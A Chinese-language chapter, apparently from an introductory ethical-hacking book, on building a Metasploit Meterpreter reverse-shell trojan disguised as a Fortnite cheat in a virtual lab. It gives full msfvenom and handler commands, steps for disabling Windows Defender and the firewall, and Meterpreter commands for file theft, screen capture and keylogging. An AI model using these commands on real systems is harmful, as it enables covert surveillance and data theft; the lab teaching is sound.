









# 第六章：远程黑客攻击与恶意软件


在本章中，你将学习攻击者如何利用互联网恶意软件感染并控制各种计算设备，从世界任何地方发起攻击。*恶意软件*（*malware*）是指任何旨在窃取或损坏数据、破坏计算机系统或用户的软件。

如果攻击者能诱使你打开一个恶意附件、视频或应用程序，他们就能控制你的计算机、智能手机或其他联网设备。为了保护自己，你需要了解黑帽黑客是如何轻松创建病毒并感染你的计算机的。一旦设备被感染，攻击者通常可以看到 *一切*——包括你的文件、你的击键、你的屏幕，甚至是你摄像头看到的内容！

在本章中，你将安全地在你的 Kali 虚拟机上创建一个病毒，并通过虚拟网络感染你的 Windows 虚拟机。然后，你将从 Kali 工作站控制 Windows 虚拟机，窃取数据、击键、摄像头视频等——就像攻击者一样。你将负责任地进行操作，确保恶意软件不会逃脱你的虚拟环境。在这个过程中，你还将学习如何保护自己免受大多数互联网恶意软件的侵害。

为了执行我们的黑客攻击，我们将使用 Kali 最著名的工具之一——Metasploit。Metasploit 框架是一个开源渗透测试工具包，由计算机安全公司 Rapid7 维护。之所以称其为框架，是因为它是一个完整的软件平台，用于开发、测试和执行漏洞利用工具。*漏洞利用*是指利用计算机系统中的漏洞进行攻击的行为。

Metasploit 被称为黑客的瑞士军刀，因为它内置了许多有用的工具。实际上，Metasploit 包含了多达 2,000 个漏洞利用工具，且数量仍在增加，包括针对 Windows、macOS、Linux、Microsoft Office、Adobe 产品、大多数浏览器、iOS、Android 等平台的漏洞利用工具。

## 创建你自己的病毒

我们将从在 Kali 虚拟机上构建恶意软件开始，通过我们在第三章中创建的 PublicNAT 网络来接管你的 Windows 虚拟机。具体来说，我们将创建一个 *木马*，这是一种看似无害但能让攻击者控制计算机的恶意软件。木马有时被称为 *远程访问木马* (*RATs*)，因为它们允许攻击者通过互联网从世界任何地方控制目标计算机——无需物理访问。

木马通常伪装成诱使用户下载并运行的文件，比如最新热门歌曲或电影的盗版副本，或是某个流行视频游戏的作弊程序。例如，我们将把我们的木马命名为 *Fortnite_cheat_mode.exe*。登录到你的 Kali 虚拟机，让我们开始创建恶意软件吧！你可能会惊讶于它是多么简单。

1.  在你的 Kali 虚拟机中，点击左上角的 Kali 图标，然后进入**08 - Exploitation Tools**▶**Metasploit Framework**。如果系统提示输入 sudo 密码，请输入`kali`。Metasploit 框架控制台（msfconsole）将启动，通常会在顶部显示一段有趣的 ASCII 艺术文本，如图 6-1 所示。

1.  你应该看到一个标有`msf6 >`的命令提示符，表示“Metasploit 框架，版本 6”。输入`ip` `addr`来检查 Kali 虚拟机的 IP 地址，并确保它已连接到 PublicNAT 网络：

    ```
    msf6 > `ip addr`
    ```

    

    图 6-1：Metasploit 框架控制台的启动信息，左下角是 Metasploit `msf` `6` `>`命令提示符

1.  查找`eth0:`部分下以`inet`开头的行，后面跟着一个 IP 地址：

    ```
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000 link/ether 08:00:27:23:ff:90 brd ff:ff:ff:ff:ff:ff **inet 10.0.9.***x***/24 brd 10.0.9.255 scope global noprefixroute eth0**1
    ```

    只要地址以`10.0.9`开头，你就连接到了你在第三章中创建的 PublicNAT 网络，并且准备就绪。请注意 IP 地址；你将在多个命令中使用它。如果你没有看到`10.0.9.x`作为你的 IP 地址，请回到第三章第 26 页重新创建 PublicNAT 网络，或者第 27 页正确地将 Kali 虚拟机连接到该网络。

1.  输入以下两行命令，将 IP 地址中的`x`替换为你刚刚查到的数字：

    ```
    msf6 > `msfvenom  -p  windows/meterpreter/reverse_tcp  \` > `LHOST=10.0.9.``x` `-f  exe  -o  ~/Desktop/Fortnite_cheat_mode.exe`
    ```

1.  现在你应该在桌面上看到一个名为*Fortnite_cheat_mode.exe*的文件，如图 6-2 所示。如果你没有看到这个文件，打开文件资源管理器，前往*/home/kali/Desktop/*来查找它。



图 6-2：`msfvenom`工具创建了一个名为*Fortnite_cheat_mode.exe*的木马并将其放在桌面上（左下角）。

你现在已经创建了第一个木马——做得不错！这只用了我们在第 4 步的`msf6 >`命令提示符下输入的两行命令。实际上，这只是一个长命令，但第一行末尾的反斜杠（`\`）允许我们将命令延续到第二行。

那么这个命令到底做了什么呢？它告诉 Metasploit 的`msfvenom`工具创建一个包含 Meterpreter shell 的恶意软件，这是一个接口，可以让我们从 Kali 中通过命令行（shell）控制 Windows 虚拟机。我们通过输入`LHOST=`后跟 Kali 虚拟机的 IP 地址，告诉 Meterpreter shell 从哪里接收命令。`-f` `exe`选项告诉`msfvenom`输出的格式（`-f`）应该是 Windows 可执行程序（`exe`）文件。`-o`选项告诉`msfvenom`输出文件的名称和位置：一个名为*Fortnite_cheat_mode.exe*的文件，将保存在桌面（`~/Desktop/`）上。

### 共享恶意软件

现在我们已经有了一个木马 Windows 可执行文件，我们需要将它传输到你的 Windows 虚拟机上。通常攻击者会尝试通过电子邮件发送木马，但许多电子邮件程序会扫描附件中的恶意软件，而且你也不希望通过个人电子邮件账户发送木马。相反，我们将创建一个共享文件夹，Windows 用户可以通过其网页浏览器访问。

1.  在 msfconsole 窗口中输入此命令，在大多数 Linux 计算机上创建一个名为 *share* 的文件夹，作为共享网页文件夹的默认位置：

    ```
    msf6 > `sudo mkdir /var/www/html/share`
    ```

1.  将木马复制到新文件夹中：

    ```
    msf6 > `sudo cp ~/Desktop/Fortnite_cheat_mode.exe /var/www/html/share`
    ```

1.  启动 Apache 网络服务器应用程序，这样文件夹就能通过网络访问：

    ```
    msf6 > `sudo service apache2 start`
    ```

1.  为了确认木马现在可以下载，请在你的 Kali 虚拟机中打开浏览器，访问 *http://<10.0.9.x>/share*，将 *<10.0.9.x>* 替换为你的 Kali 虚拟机的 IP 地址。你将看到类似于 图 6-3 所示的网页。



图 6-3：感谢 Kali 的 Apache 网络服务器，我们的木马恶意软件现在可以通过（虚拟）网络访问！

### 监听木马回家的连接

现在我们需要准备 Metasploit，以便接收来自感染的 Windows 机器的传入连接（我们有时称之为*回家*）。一个传入连接将让我们发送恶意命令来远程控制一台机器。通常，攻击者会向成千上万的潜在受害者发送病毒邮件附件，等待看看哪些人打开附件并感染。在我们的案例中，我们只感染一个 Windows 虚拟机。然而，按照这些步骤，我们也能轻松地接收多个感染计算机的连接来控制它们。

1.  在 `msf6` `>` 提示符下输入此命令，告诉 Metasploit 处理或接受来自感染计算机的多个传入连接：

    ```
    msf6 > `use exploit/multi/handler`
    ```

    msfconsole 提示符将发生变化，以告诉我们 *multi/handler* 漏洞利用已经激活。

1.  现在告诉 Metasploit 木马的*有效载荷*——也就是我们传送的恶意程序——是一个 Meterpreter shell：

    ```
    msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
    ```

    msfconsole 会响应 `PAYLOAD` `=>` `windows/meterpreter/reverse_tcp`，表示我们已选择 Meterpreter 有效载荷。

1.  输入你的 Kali 虚拟机的 IP 地址，以指示连接将要到达的本地主机（记得填写最后一个数字）：

    ```
    msf6 exploit(multi/handler) > `set LHOST` `10.0.9.x`
    ```

    Metasploit 会响应 `LHOST =>` `10.0.9.x`，表示本地主机选项已正确设置。

1.  最后，等了这么久的时刻终于到了：启动漏洞利用！

    ```
    msf6 exploit(multi/handler) > `exploit -j` 
    ```

    `-j` 选项告诉 Metasploit 将处理程序放到后台运行，这样你就可以在等待感染的机器连接到 Kali 虚拟机时继续使用 msfconsole。Metasploit 会确认漏洞利用在后台运行，准备接受来自 `10.0.9.x:4444` 或你 Kali 虚拟机的端口 4444 上的传入连接。

## 感染你的 Windows 虚拟机

我们的木马已经准备就绪，接下来是时候感染你的 Windows 虚拟机了。首先，我们将禁用几个 Windows 安全功能，这些功能通常会让用户难以做出像下载并打开互联网上可疑文件这样愚蠢的行为。然后，关闭这些安全功能后，我们就正是要做这些愚蠢的事情。

记住，你的 Windows 虚拟机是为了让你安全地练习黑客技能而创建的。如果你搞砸了，比如感染了木马，你可以简单地删除 Windows 虚拟机并创建一个新的。考虑到这一点，启动你的 Windows 10 虚拟机，在提示时输入用户名 `IEUser` 和密码 `Passw0rd!`，然后开始吧。

1.  在 Windows/Cortana 搜索栏中输入 `cmd` 查找命令提示符。右键点击并选择 **以管理员身份运行**。在弹出的窗口中询问你是否允许该应用程序对设备进行更改时，点击 **是**。

1.  在出现的“管理员：命令提示符”窗口中，输入此命令来关闭 Windows 虚拟机的防火墙：

    ```
    C:\Windows\system32> `netsh advfirewall set allprofiles state off`
    ```

    通常，*防火墙* 会阻止外部计算机的恶意或不必要流量，并且它可以防止你的计算机与恶意服务器建立可疑连接。执行此命令后，你可能会看到弹出的消息“打开 Windows 防火墙。” Windows 正在警告你关闭防火墙是危险的——确实如此！——但这正是我们第一次远程攻击所需要的。

1.  接下来，我们将关闭 Windows Defender，这是另一种安全工具。在搜索栏中输入 `virus`，然后打开 **病毒与威胁防护** 设置。

1.  点击 **管理设置**，将实时保护和云端防护的切换按钮滑到 **关闭**。Windows 会再次询问你是否允许此应用程序对设备进行更改。点击 **是**。你的 Windows 10 虚拟机现在和地球上四分之一的计算机一样脆弱。

1.  打开 Edge 浏览器，访问 *http://<10.0.9.x>/share/*。

1.  点击你的木马并选择**保存**，将文件下载到你的 Windows 虚拟机的 *下载* 文件夹中。

1.  关键时刻：打开 Windows 虚拟机的 *下载* 文件夹，双击木马可执行文件运行它。

1.  事实证明，Windows 10 计算机有一层额外的病毒保护，以防止像我们刚刚犯的愚蠢错误：Windows Defender SmartScreen 会弹出警告，显示“已阻止一个无法识别的应用程序启动”，如图 6-4 所示。点击 **更多信息** 然后选择 **继续运行**。

你现在已经控制了你的第一台计算机！你不会在 Windows 虚拟机上看到任何变化，但如果你切换回 Kali 虚拟机，应该会在 msfconsole 中看到类似以下内容：

```
[*] Sending stage (179779 bytes) to 10.0.9.5
[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:49830) at 2021-06-11 12:39:46 -0400
```

被感染的 Windows 虚拟机已回拨到 Kali 并建立了连接（也叫做 *会话*）。恭喜你：Windows 虚拟机现在正在等待你的命令！



图 6-4：Windows Defender SmartScreen 尝试最后一次保护你的 Windows 虚拟机。

## 使用 Meterpreter 控制你的 Windows 虚拟机

现在，我们已经在 Kali 和 Windows 虚拟机之间建立了连接，准备开始从 Metasploit 操控 Windows 机器。首先，在 Metasploit 终端窗口中输入 `sessions` 查看活动的 Metasploit 连接列表：

```
msf6 exploit(multi/handler) > **sessions**
Active sessions
=============== Id  Name  Type                     Information                       Connection --  ----  ----                     -----------                       ---------- 1         meterpreter x86/windows  MSEDGEWIN10\IEUser @ MSEDGEWIN10  10.0.9.4:4444 -> 10.0.9.5:63750 (10.0.9.5)
```

如你所见，我们连接到一台名为 MSEdgeWin10 的受感染 Windows 10 计算机，用户名为*IEUser*——这就是你的 Windows 10 虚拟机！我们的会话 ID 号是 1。如果你在其他计算机上也运行了木马，你会看到多个会话列出，每个都有自己的 ID 号。同样，如果你需要重新建立与 Windows 虚拟机的连接，它将以不同的 ID 号列出，例如 2。

输入`sessions -i` `1`来开始与 Windows 虚拟机交互：

```
msf6 exploit(multi/handler) > **sessions -i** `1`
[*] Starting interaction with 1...
meterpreter >
```

命令提示符变为`meterpreter` `>`，表明我们正在与远程 Windows 虚拟机上的 Meterpreter shell 交互。让我们试几个命令。输入`sysinfo`来查看计算机的一些信息，比如操作系统（OS）、系统语言等：

```
meterpreter > **sysinfo**
Computer        : MSEDGEWIN10
OS              : Windows 10 (Build 17763).*--snip--*
```

现在，让我们尝试另一个命令，`pwd`，是*print working directory*的缩写，用来查看 Meterpreter shell 运行的路径：

```
meterpreter > **pwd**
C:\Users\IEUser\Downloads
```

这告诉我们 Meterpreter shell 是从 Windows 虚拟机的*Downloads*目录运行的——我们木马所在的位置。

输入`help`以列出你可以从 Meterpreter shell 远程运行的一些最常见的命令。这里有用于运行程序、终止正在运行的进程、关闭或重启远程计算机、清除事件日志（在黑客攻击时掩盖踪迹）、捕捉按键、截屏、监视远程用户的桌面或摄像头等命令，仅举几例。总共有 100 多条命令，攻击者可以利用这些命令几乎完全控制一台计算机。部分命令列表请参见图 6-5。

为了了解威胁的严重性，让我们看看攻击者如何通过受感染的文件轻松地黑掉我们的文件、键盘、摄像头等。并非每个命令在每次尝试时都能成功；你可能需要多次尝试。然而，探索这些命令可能造成的破坏应该会促使你*永远*不要从随机网页或电子邮件附件安装软件。



图 6-5：我们可以用来控制受感染的 Windows 虚拟机的一些令人惊叹的 Meterpreter 命令

### 查看和上传文件

我们将通过浏览计算机文件并上传我们的木马备份文件来开始对 Windows 虚拟机的利用。

1.  在`meterpreter >`命令提示符下，输入以下命令将目录更改为受感染的虚拟机的*Documents*文件夹，并列出该文件夹的内容：

    ```
    meterpreter > `cd  ../Documents`
    meterpreter > `ls`
    Listing: C:\Users\IEUser\Documents
    ==================================
    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Music
    40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Pictures
    40777/rwxrwxrwx   0     dir   2019-03-19 06:49:34 -0400  My Videos
    40777/rwxrwxrwx   0     dir   2019-03-19 07:29:40 -0400  WindowsPowerShell
    100666/rw-rw-rw-  402   fil   2019-03-19 06:49:49 -0400  desktop.ini
    ```

    你将看到音乐、图片、视频等文件夹，和任何其他 Windows 计算机一样。攻击者可以使用这些命令浏览目标计算机，寻找感兴趣的文件进行窃取。

1.  将*Fortnite_cheat_mode.exe*恶意文件从你的 Kali 虚拟机上传到*Documents*文件夹：

    ```
    meterpreter > `upload /home/kali/Desktop/Fortnite_cheat_mode.exe` 
    [*] uploading  : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
    [*] uploaded   : /home/kali/Desktop/Fortnite_cheat_mode.exe -> Fortnite_cheat_mode.exe
    ```

1.  切换回你的 Windows 10 虚拟机并打开*Documents*文件夹。你应该能看到新上传的木马文件，如图 6-6 所示。



图 6-6：我们可以从 Kali 向感染的 Windows 10 虚拟机上传文件。

现在你已经在 Windows 虚拟机上备份了特洛伊木马，你可以随时将其从*Documents*文件夹复制并粘贴到*Downloads*文件夹中，防止 Windows Defender 重启后删除*Downloads*文件夹中的特洛伊木马。一旦某人通过网络或电子邮件打开一个被感染的文件，攻击者通常会在计算机的不同位置上传多个病毒，以确保他们能够持续控制目标机器。

### 从受害者计算机下载文件

Meterpreter 中的 `download` 命令允许你从受害者计算机下载文件。为了尝试，我们将在 Windows 虚拟机上创建一个示例文本文件，然后偷取它。

1.  在 `meterpreter >` 提示符下输入此命令，以远程控制受害者计算机的 Windows 命令行终端，或*shell*。

    ```
    meterpreter > `shell`
    Process 4952 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.17763.379]
    (c) 2018 Microsoft Corporation. All rights reserved.
    ```

1.  现在创建一个名为*hacked.txt*的文件，内容为“你已经被黑客攻击！”

    ```
    C:\Users\IEUser\*Do**cument**s**>* `echo "You've been hacked!" > hacked.txt`
    echo "You've been hacked!" > hacked.txt
    ```

1.  检查 Windows 虚拟机上的*Documents*文件夹。你应该能看到我们刚刚从 Kali 远程创建的*hacked.txt*文件。

1.  回到 Kali，退出 Windows shell，返回到 Meterpreter：

    ```
    C:\Users\IEUser\Documents> `exit`
    exit
    ```

1.  现在将文件从 Windows 下载到你的 Kali 虚拟机上：

    ```
    meterpreter > `download hacked.txt`
    [*] Downloading: hacked.txt -> hacked.txt
    [*] Downloaded 24.00 B of 24.00 B (100.0%): hacked.txt -> hacked.txt
    [*] download   : hacked.txt -> hacked.txt
    ```

1.  最后，使用以下命令查看文件内容，即我们的“你已经被黑客攻击！”消息。

    ```
    meterpreter > `cat hacked.txt`
    "You've been hacked!"
    ```

我们已经成功从受害者的计算机上下载了一个文件！在这个例子中，是我们在攻击虚拟机上（远程）创建的文件，但真正的攻击者可能会下载更重要的信息。任何 Windows 用户有权限访问的文件都可以被攻击者下载，当 Windows 用户运行 Meterpreter 木马时：客户名单、家庭照片、预算表格、税务表单、银行对账单、员工数据、病历记录、宝贵的知识产权或任何*敏感*文件，都可以在几次按键之间被窃取。

### 查看受害者计算机的屏幕

像 Meterpreter shell 这样的特洛伊木马通常被称为*后门*，因为它们使攻击者能够绕过所有其他安全措施（包括登录）以访问你的计算机。这就像是通过电影院的后门偷偷溜进去。当你在 Windows 虚拟机上点击 Meterpreter 木马文件时，你就打开了一个秘密门，使我们能够上传和下载文件。但事情变得更糟：你为我们的攻击虚拟机提供了一个后门，使我们能够查看你的计算机屏幕、记录你的按键，甚至开启你的摄像头！为了证明这一点，我们将尝试从 Kali 中查看 Windows 虚拟机的屏幕。

1.  在 Meterpreter shell 中输入 `screenshot -v true` 命令。使用此命令，攻击者可以发现受害者计算机用户看到的内容。

    ```
    meterpreter > **screenshot -v true**
    Screenshot saved to: /home/kali/Desktop/*kYpTvFbl*.jpeg 
    ```

1.  应该会弹出一个窗口，显示来自 Windows 虚拟机的截图，如图 6-7 所示。

    图 6-7：从 Windows 虚拟机捕获屏幕截图

1.  你甚至可能能够更进一步，实时监视用户的计算机屏幕。在 Meterpreter 中，输入 `screenshare` 命令：

    ```
    meterpreter > `screenshare`
    [*] Preparing player...
    [*] Opening player at:  /home/kali/oDgBGMiY.html
    [*] Streaming...
    ```

    这个命令并不总是有效，而且它可能会让你的虚拟机（以及宿主计算机）变得非常缓慢，因为它试图将 Windows 10 虚拟机的计算机屏幕实时视频通过虚拟网络流传输到 Kali 虚拟机。但如果它成功了，你将能够通过 Kali 中的浏览器窗口看到 Windows 10 虚拟机的桌面，如图 6-8 所示。

1.  切换到你的 Windows 虚拟机，移动一些文件或窗口，清空回收站，或打开一个网页。如果你有多个显示器，或者有足够的空间同时显示两个虚拟机，你可以通过 Kali 中浏览器中的流媒体视频观看你在 Windows 虚拟机中的一切操作。很毛骨悚然，对吧？

1.  点击回到 Kali 中的 Meterpreter 终端窗口，然后按 CTRL-C 停止屏幕共享。



图 6-8：`screenshare` 命令让 Kali 上的攻击者能够通过互联网监视你的 Windows 桌面。

### 记录按键

一旦控制了计算机，攻击者就可以记录用户的每一个按键。这使得攻击者能够获得用户输入的记录，包括搜索、命令、密码等。让我们看看它是如何工作的。

1.  在 Meterpreter shell 中输入 `keyscan_start` 命令，以开始记录目标计算机的按键：

    ```
    meterpreter > `keyscan_start`
    Starting the keystroke sniffer ...
    ```

1.  切换回 Windows 虚拟机，在搜索栏中输入 **notepad** 并打开记事本应用。

1.  将此信息输入记事本：

    ```
    `My credit card number is not 1111 1111 1111 1111``with an expiration of 11/2028``and a cvv of 111`
    ```

    当然，你永远不应将敏感信息以明文形式存储在计算机上，但世界上许多人确实这样做。

1.  切换回 Kali 虚拟机并输入 `keyscan_dump` 查看记录的按键：

    ```
    meterpreter > `keyscan_dump`
    Dumping captured keystrokes...
    notepad<CR>
    <Shift>My credit card number is not 1111 1111 1111 1111<CR>
    with an expiration of 11/2028<CR>
    and a cvv of 111<CR>
    ```

    Meterpreter 捕获了 Windows 10 用户的所有按键，包括特殊键，如 `<CR>`（即*回车键*，是 ENTER 键的另一种称呼）。虽然在文本文件中输入可能看起来是一个不太现实的例子，但你可以想象，用户可能正在向一个在线购物网站输入他们的信用卡号，或在银行的网页门户登录时输入用户名和密码。

1.  在 Meterpreter shell 中输入 `keyscan_stop` 命令，以停止捕获来自 Windows 计算机的按键：

```
meterpreter >`keyscan_stop`
Stopping the keystroke sniffer...
```

### 通过摄像头进行间谍监视

如果记录按键还不足以让你感到毛骨悚然，那么查看受害者计算机的摄像头应该会让你想搬到一个没有互联网的偏远岛屿（或者至少让你决定用便签纸覆盖住摄像头）。将摄像头连接到 Windows 虚拟机可能无法成功，但即便你无法亲自尝试这个攻击，它在真实的带有摄像头的 Windows 计算机上却能可靠地执行。继续进行此操作时，你需要一台摄像头（笔记本电脑自带的摄像头或连接到台式机的 USB 摄像头）以及耐心，按照警告中给出的步骤多次重新运行整个黑客操作。

1.  检查你的摄像头是否出现在 Windows 虚拟机菜单栏的 **设备**▶**摄像头**下。如果有，选择它的名称并跳至第 6 步。否则，我们需要将摄像头连接到虚拟机。

1.  关闭 Windows 虚拟机并选择 **关闭机器电源**。

1.  在 VirtualBox 管理器中，选择 Windows 虚拟机并进入 **机器**▶**设置**，或者在 macOS 上选择 **机器**▶**设置**▶**端口**。在设置菜单中选择 **USB**，然后勾选 **启用 USB 控制器** 旁边的复选框。

1.  重启 Windows 虚拟机。进入菜单栏，选择 **设备**▶**摄像头**或 **设备**▶**USB**，然后选择你的摄像头名称。

1.  关闭 Windows 虚拟机的防火墙和防御程序。然后重新运行木马。

